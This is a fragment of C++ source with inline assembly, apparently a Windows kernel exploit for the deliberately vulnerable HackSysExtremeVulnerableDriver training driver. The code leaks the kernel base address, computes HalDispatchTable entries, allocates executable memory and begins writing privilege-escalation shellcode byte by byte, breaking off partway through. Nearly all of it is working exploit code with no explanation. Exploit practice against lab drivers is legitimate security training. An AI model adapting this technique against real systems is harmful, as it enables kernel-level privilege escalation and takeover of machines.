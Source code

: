 ```
    if (!NtQuerySystemInformation){
        cout << "[!] Failed to Get the Address of NtQuerySystemInformation." << endl;
        cout << "[!] Last Error:" << GetLastError() << endl;
        exit(1);
    }
 
    ULONG len = 0;
 
    //Get Buffer Length
    NtQuerySystemInformation(SystemModuleInformation,NULL,0,&len);
 
    //Allocate Memory
    PSYSTEM_MODULE_INFORMATION PModuleInfo = (PSYSTEM_MODULE_INFORMATION)VirtualAlloc(NULL,len,MEM_RESERVE | MEM_COMMIT,PAGE_EXECUTE_READWRITE);
 
    //Get SYSTEM_MODULE_INFORMATION
    NTSTATUS Status = NtQuerySystemInformation(SystemModuleInformation,PModuleInfo,len,&len);
 
    if (Status != (NTSTATUS)0x0){
        cout << "[!] NtQuerySystemInformation Failed!" << endl;
        exit(1);
    }
 
    PVOID KernelImageBase = PModuleInfo->Modules[0].ImageBaseAddress;
 
    cout << "[>] Kernel base address: 0x" << hex << KernelImageBase << endl;
 
    return (INT32)KernelImageBase;
}
 
int main() {
 
    HANDLE hFile = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, NULL, NULL, OPEN_EXISTING, NULL, NULL);
 
    if (hFile == INVALID_HANDLE_VALUE) {
        cout << "[!] No Handle to HackSysExtremeVulnerableDriver" << endl;
        exit(1);
    }
 
    cout << "[>] Handle to HackSysExtremeVulnerableDriver: 0x" << hex << (INT32)hFile << endl;
 
    INT32 KrBase = GetKernelBaseAddress();
    INT32 HalDispatchTable_Address = KrBase + 0x0012b3f8;
    INT32 HalQuerySystemInformation_Address = HalDispatchTable_Address + 0x4;
    INT32 HalSetSystemInformation_Address = HalDispatchTable_Address + 0x8;     //HalQuerySystemInformation_Address Offset 0x912
    CHAR* SC = (CHAR*)VirtualAlloc(0, 0x60, 0x3000, 0x40);
    ZeroMemory(SC, 0x60);
    __asm {
        pushad;
        mov ebx, HalSetSystemInformation_Address;
        mov eax, HalQuerySystemInformation_Address;
        mov edi, SC;
        mov[edi], 0x60;
        mov dword ptr[edi + 0x1], 0x000000E8;
        mov dword ptr[edi + 0x5], 0x588B5800;
        mov dword ptr[edi + 0x9], 0x4F488B4B;
        mov dword ptr[edi + 0xD], 0xC281138B;
        mov dword ptr[edi + 0x11], 0x00000912;
        mov dword ptr[edi + 0x15], 0x90901189;
        mov dword ptr[edi + 0x19], 0x8B64C031;
        mov dword ptr[edi + 0x1D], 0x00012480;
```